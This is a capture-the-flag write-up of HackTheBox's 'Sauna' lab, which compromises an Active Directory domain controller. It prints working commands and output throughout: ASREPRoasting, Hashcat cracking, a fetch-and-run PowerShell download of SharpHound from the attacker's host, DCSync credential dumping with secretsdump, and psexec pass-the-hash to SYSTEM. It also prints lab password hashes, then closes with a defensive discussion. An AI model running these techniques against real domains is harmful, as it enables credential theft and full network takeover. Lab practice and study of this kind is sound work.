



+++
authors = ["Matt Johnson"]
title = 'HTB: Sauna Writeup'
date = '2020-07-18'
description = "Here's how to solve HackTheBox's Sauna."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Sauna."
+++



# High-Level Information

Machine Name: Sauna

IP Address: 10.10.10.175

Difficulty: Medium

Summary: HackTheBox's Sauna was retired today, and it was an excellent machine for practicing Active Directory (and domain controller) exploitation. Rooting the box did not require any vulnerability exploitation at all, rather it relied on tried and true AD exploitation tactics. Getting an initial foothold on the box required enumerating employee names, creating a list of potential usernames based on common naming conventions, and using that list to perform an ASREPRoast attack against the Kerberos service. After gaining a hash for one user, `fsmith`, I managed to crack it and utilize Evil-WinRM to get a low shell. During internal enumeration, running winPEAS gave me another set of credentials for a service account, `svc_loanmgr`. I logged in as that account, loaded Bloodhound, and determined that the account's permissions allowed me to perform a DCSync attack and dump all user credentials. After obtaining the `Administrator` account's NTLM hash, I gained a root shell via PsExec.

Tools Used: Nmap, Impacket, Hashcat, [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS), [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

# Initial Foothold

As always, I began by running Nmap:

```shell
matt@kali:/opt$ ./stagednmap.sh 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 18:45 CDT
Nmap scan report for 10.10.10.175
Host is up (0.13s latency).
Not shown: 65518 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49676/tcp open  unknown
49686/tcp open  unknown
58943/tcp open  unknown
Nmap done: 1 IP address (1 host up) scanned in 222.56 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 18:49 CDT
Nmap scan report for 10.10.10.175
Host is up (0.16s latency).
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-05-30 07:52:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
58943/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/29%Time=5ED19F92%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 8h03m01s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-05-30T07:54:59
|_  start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 310.45 seconds
         
```

Based on the number of open ports and the services running on them, I assumed that this was a Domain Controller. As such, I attempted to enumerate the usual suspects: SMB and LDAP. Unfortunately, both of these were pretty locked down. The only information I managed to get was the domain components: `DC=EGOTISTICAL-BANK,DC=LOCAL`.

Moving on, I enumerated the website.

  

Once again, however, there didn't seem to be any exploitation vectors. After further enumerating the website and still finding nothing, I made a list of potential usernames based on the employee names found on the website.

```
fergussmith
fergus.smith
fsmith
shauncoins
shaun.coins
scoins
hugobear
hugo.bear
hbear
bowietaylor
bowie.taylor
btaylor
sophiedriver
sophie.driver
sdriver
stevenkerb
steven.kerb
skerb
```

Using this list of potential usernames, I attempted to perform an ASREPRoast attack and got a hit.

```shell
matt@kali:/usr/share/doc/python3-impacket/examples$ python3 GetNPUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -no-pass -usersfile ~/htb/Sauna/possible-usernames.txt
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:923a85dc41147afdc6a6772dffb1ceb7$9fc33b7929d1d0f58152e7fbfe5c5ab5ae862afef33cadd8f8032aa977a895d5602b3f94f19466c1c91333a27be690267f492c75d0919b5ee4f06a38fc89f83157ef59af0f83310edd39f1d3195c8725d1f1b83c9abbb9a2a32ec7ad722e0a813d4ad23897bd78755f926fac3a79565c7b2cb878a6b8ab925509bf25e7072bdbd853c4f17ed88705719b6d01057a7932c29a18fee3e706fa40e38fd0f390d7d52b1ef9bee8cf4501ea3fca9cc8905d974a3c12da6ef2b489e5c4185f71a11be523f01600b93277b1ebe2ebbd6b3e5028cced498d8cde5ce46734369c3c749bd5dafa439fc3b32959f507f243fc461f7547938a0b78d133b893bb33c954e0f48e
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

I was easily able to crack the hash using hashcat. After that, I utilized Evil-WinRM to gain a remote shell, which was possible due to the WSMan service being enabled:

```shell
matt@kali:~/htb/Sauna$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...
OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2048/5891 MB allocatable, 4MCU
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 6 secs
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:923a85dc41147afdc6a6772dffb1ceb7$9fc33b7929d1d0f58152e7fbfe5c5ab5ae862afef33cadd8f8032aa977a895d5602b3f94f19466c1c91333a27be690267f492c75d0919b5ee4f06a38fc89f83157ef59af0f83310edd39f1d3195c8725d1f1b83c9abbb9a2a32ec7ad722e0a813d4ad23897bd78755f926fac3a79565c7b2cb878a6b8ab925509bf25e7072bdbd853c4f17ed88705719b6d01057a7932c29a18fee3e706fa40e38fd0f390d7d52b1ef9bee8cf4501ea3fca9cc8905d974a3c12da6ef2b489e5c4185f71a11be523f01600b93277b1ebe2ebbd6b3e5028cced498d8cde5ce46734369c3c749bd5dafa439fc3b32959f507f243fc461f7547938a0b78d133b893bb33c954e0f48e:Thestrokes23
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:923a85d...e0f48e
Time.Started.....: Sun May 31 13:42:32 2020 (52 secs)
Time.Estimated...: Sun May 31 13:43:24 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   204.8 kH/s (5.89ms) @ Accel:13 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10539776/14344385 (73.48%)
Rejected.........: 0/10539776 (0.00%)
Restore.Point....: 10536448/14344385 (73.45%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tiggerjojo17 -> TheBlueNoise
Started: Sun May 31 13:42:22 2020
Stopped: Sun May 31 13:43:25 2020
matt@kali:~/htb/Sauna$ 
```

```shell
matt@kali:/opt$ evil-winrm -i 10.10.10.175 -u fsmith
Enter Password:
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
*Evil-WinRM* PS C:\Users\FSmith\Documents> 
```

# Privilege Escalation

Once on the box, I downloaded and ran winPEAS, which revealed some credentials stored within the registry:

```powershell
PS C:\Users\FSmith\Documents> gc winpeas.txt
            *((,.,/((((((((((((((((((((/,  */
     ,/*,..*(((((((((((((((((((((((((((((((((,
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
   ((((((((((((((((* *****,,,/########## .(* ,((((((
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/######* /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
  .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/"
                       by carlospolop
ECHO is off.
Advisory: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
ECHO is off.
[...]
User accounts for \\
-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
The command completed with one or more errors.
[...]
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] Files an registry that may contain credentials 
```

Logging in as that user, I performed some additional enumeration. Running Bloodhound revealed that the `svc_loanmgr` account had both the GetChanges and GetChangesAll privilege. This means that the account can perform a DCSync attack. In simple terms, a DCSync attack is where a user with the aforementioned permissions can impersonate a domain controller and utilize MS-DRSR (Directory Replication Service Remote Protocol) to obtain a dump of all user credentials.

```powershell
PS C:\Users\svc_loanmgr\Documents> iex(New-Object System.net.WebClient).DownloadString("http://10.10.14.42/SharpHound.ps1"); Invoke-BloodHound -CollectionMethod all
PS C:\Users\svc_loanmgr\Documents> gci
Directory: C:\Users\svc_loanmgr\Documents
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 6/9/2020 3:38 AM 9134 20200609033845_BloodHound.zip
-a---- 6/9/2020 3:38 AM 11122 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin
PS C:\Users\svc_loanmgr\Documents> certutil -encode 20200609033845_BloodHound.zip blood.b64
Input Length = 9134
Output Length = 12618
CertUtil: -encode command completed successfully.
PS C:\Users\svc_loanmgr\Documents> ls
Directory: C:\Users\svc_loanmgr\Documents
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 6/9/2020 3:38 AM 9134 20200609033845_BloodHound.zip
-a---- 6/9/2020 3:42 AM 12618 blood.b64
-a---- 6/9/2020 3:38 AM 11122 ZDFkMDEyYjYtMmE1ZS00YmY3LTk0OWItYTM2OWVmMjc5NDVk.bin
PS C:\Users\svc_loanmgr\Documents> gc blood.b64
[...]
matt@kali:~/htb/Sauna/www$ unzip decoded.zip
Archive: decoded.zip
inflating: 20200609033845_groups.json
inflating: 20200609033845_users.json
inflating: 20200609033845_gpos.json
inflating: 20200609033845_ous.json
inflating: 20200609033845_domains.json
inflating: 20200609033845_computers.json
matt@kali:~/htb/Sauna/www$ ls
20200609033845_computers.json 20200609033845_domains.json 20200609033845_gpos.json 20200609033845_groups.json 20200609033845_ous.json 20200609033845_users.json bloodhound.zip blood.zip decoded.zip
matt@kali:~/htb/Sauna/www$
matt@kali:~/htb/Sauna/www$
```



In order to exploit this misconfiguration, I used Impacket's `secretsdump.py` to dump the credentials and `psexec.py` to get a root shell.

```shell
matt@kali:/opt/impacket-0.9.21/examples$ ./secretsdump.py -just-dc-ntlm egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:dc706723e3073a8f4d3f438ec5af098e:::
[*] Cleaning up...
matt@kali:/opt/impacket-0.9.21/examples$ ./psexec.py -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file kElNynoN.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service MmEB on 10.10.10.175.....
[*] Starting service MmEB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>hostname    
SAUNA    
C:\Windows\system32>
```

# Discussion

This machine features a number of misconfigurations and fundamental weaknesses of various protocols used within AD environments, which makes the box both an interesting case study and a useful discussion topic.

## Topic #1: ASREPRoastable

The first mistake relates to the ASREPRoast attack. Monimoy Sanyal, a principal architect at Microsoft, [has previously written about why Kerberos pre-authentication should not be disabled](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx) so I won't delve too much into that. Basically, when pre-authentication is disabled, any user can request a ticket-granting ticket (TGT) in plain text. When the Kerberos service sends back the encrypted TGT, a malicious actor can simply take the ticket offline and crack the user's password. Technically speaking, this sort of operation would similarly be possible if pre-authentication was required, but that would require the actor to perform a man-in-the-middle attack.

In most cases, there is no reason for pre-authentication to be disabled. Microsoft even enables it by default, which is an impressive feat for a company so indifferent to its operating system's [insecure](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) [default](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/microsoft-network-client-digitally-sign-communications-always) [configurations](https://www.crowe.com/cybersecurity-watch/netbios-llmnr-giving-away-credentials) (those are three different links). Often times, pre-authentication is disabled due to legacy support. In some cases, this may be necessary. In those cases, password requirements need to be extremely strong, security event monitoring devices need to be configured to record and alert on plaintext TGT requests from unusual hosts, the scope of the pre-authentication disablement needs to be very limited, and accounts configured this way should be subject to regular review. There's simply no other way to prevent this attack.

## Topic #2: Domain Object Privileges & MS-DRSR

The path to root, as well as the corresponding credential dump, was paved by an account with excessive and poorly thought out privileges. Beyond the obvious, the only thing I have to add is that security audits and reviews should not only feature group members (as is often the case), but also group and user privileges. An organization that truly follows the principle of least privilege needs to ensure that there are no blind spots that could allow a user, regardless of intent, more rights than are necessary. It's easy to blame MS-DRSR, but its functionality is rooted in necessity. This was fundamentally a case of excess privilege.

## Topic #3: Beyond Root

Beyond getting access as `NT AUTHORITY\SYSTEM` (or `Administrator`, if you used crackmapexec), what could a malicious actor do based on the vulnerabilities noted? For one, they could establish a level of persistence that would cause even the most well-run security programs headaches. With the `krbtgt` user's NTLM hash, it's possible to create a golden ticket. If one has a golden ticket, they could impersonate any and every user in the domain regardless of whether or not they know the password. Compounding this problem, the only remediation strategy is to change the password for the `krbtgt` account… [Twice](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password). This may or may not break services in the environment. Fortunately, [Microsoft has a script](https://www.microsoft.com/security/blog/2015/02/11/krbtgt-account-password-reset-scripts-now-available-for-customers/) for safely resetting the `krbtgt` account's credentials.

Other methods for persistence include DCShadow, ACL persistence, and setting up backdoors using programs like Empire or Merlin. Additionally, you then have to worry about abusing domain trusts to gain (often times elevated) access to other domains within an organization. In conclusion, security personnel need to understand the risks associated with AD and continuously monitor and audit these risks, whether internally or externally (e.g. security audit, penetration test, etc.).